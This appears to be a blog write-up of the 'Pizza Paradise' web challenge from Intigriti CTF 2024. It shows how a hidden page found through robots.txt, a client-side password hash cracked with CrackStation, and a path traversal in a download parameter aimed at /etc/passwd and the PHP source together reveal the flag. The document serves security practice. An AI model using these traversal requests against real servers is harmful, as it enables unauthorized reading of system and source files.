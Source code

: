 ```yaml
---
title: Intigriti CTF 2024 - WEB
date: 2024-11-18
tags: [ctf, web]
categories: [CTF Writeups]
author: 2Fa0n
img_path: /assets/img/Intigriti-ctf_2024
image: /assets/img/Intigriti-ctf_2024/intigriti_banner.png
---
```


## Pizza Paradise
**Solvers:** 395 <br>
**Author:** CryptoCat

### Description
Something weird going on at this pizza store!! <br>
![Pizza Paradise](/assets/img/Intigriti-ctf_2024/pizza_paradise.png)

### Solution
Looking around does not have any interesting things, let's check the `robots.txt` file.

```
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

Let access the `/secret_172346606e1d24062e891d537e917a90.html` page. <br>
![Secret Page](/assets/img/Intigriti-ctf_2024/secret_page.png)

Check the source code of the page.

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <title>Top Secret Government Access</title>
        <link
            href="https://fonts.googleapis.com/css2?family=Orbitron&display=swap"
            rel="stylesheet"
        />
        <link rel="stylesheet" href="/assets/css/secret-theme.css" />
        <script src="/assets/js/auth.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
        <script>
            function hashPassword(password) {
                return CryptoJS.SHA256(password).toString();
            }

            function validate() {
                const username = document.getElementById("username").value;
                const password = document.getElementById("password").value;

                const credentials = getCredentials();
                const passwordHash = hashPassword(password);

                if (
                    username === credentials.username &&
                    passwordHash === credentials.passwordHash
                ) {
                    return true;
                } else {
                    alert("Invalid credentials!");
                    return false;
                }
            }
        </script>
    </head>
    <body>
        <div class="container">
            <h1>Top Secret Government Access</h1>
            <form id="loginForm" action="login.php" method="POST" onsubmit="return validate();">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required /><br />
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required /><br />
                <input type="submit" value="Login" />
            </form>
        </div>
    </body>
</html>
```

We can see that the password is hashed using SHA256 and the credentials are stored in the `/assets/js/auth.js` file.

```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

Let crack the password hash using [CrackStation](https://crackstation.net/). <br>

![CrackStation](/assets/img/Intigriti-ctf_2024/crackstation.png)

We have the credentials, let's login.

```
username: agent_1337
password: intel420
```

Login successfully and access to the portal and download the secret file. <br>

![Portal](/assets/img/Intigriti-ctf_2024/portal.png)

When we click download the secret file, we get the GET request in burp suite.

```
GET /topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```

Let try `/etc/passwd`.

```
GET /topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```

The response is `File path not allowed!`.
Try path traversal inside the `/assets/images` directory.

```
GET /topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../etc/passwd
```

It gets `File not found!` so it works!

We will try to get the source code of this file `topsecret_a9aedc6c39f654e55275ad8e65e316b3.php`.

```
GET /topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

![Source Code](/assets/img/Intigriti-ctf_2024/source_code.png)

We can see the flag inside the source code.

```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```

**Flag:** `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
